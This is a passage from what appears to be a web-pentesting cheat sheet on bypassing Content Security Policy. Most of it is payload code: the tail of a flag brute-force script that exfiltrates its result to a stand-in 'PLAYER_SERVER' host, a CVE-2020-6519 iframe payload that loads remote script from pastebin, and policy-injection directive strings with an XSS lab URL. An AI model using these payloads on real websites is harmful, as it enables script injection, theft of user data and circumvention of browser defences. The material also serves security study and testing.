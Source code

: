 ```javascript
			let c = alphabet[i];
			let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
			console.log(prefix, c, t);
			if (t) {
				console.log('FOUND!')
				prefix += c;
				break;
			}
		}
		if (i==alphabet.length) {
			console.log('missing chars');
			break;
		}
		let t = await query(prefix+'}', true);
		if (t) {
			prefix += '}';
			break;
		}
	}
	new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
	console.log(prefix);
}

run();
</script>
```

###  [CVE-2020-6519](https://www.perimeterx.com/tech-blog/2020/csp-bypass-vuln-disclosure/)

```javascript
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```

## Policy Injection

**Research:** [**https://portswigger.net/research/bypassing-csp-with-policy-injection**](https://portswigger.net/research/bypassing-csp-with-policy-injection)\*\*\*\*

### Chrome

If a **parameter** sent by you is being **pasted inside** the **declaration** of the **policy,** then you could **alter** the **policy** in some way that makes **it useless**. You could **allow script 'unsafe-inline'** with any of these bypasses:

```text
script-src-elem *; script-src-attr *
script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```

Because this directive will **overwrite existing script-src directives**.  
You can find an example here: [http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=%3Bscript-src-elem+\*&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E](http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+*&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E)
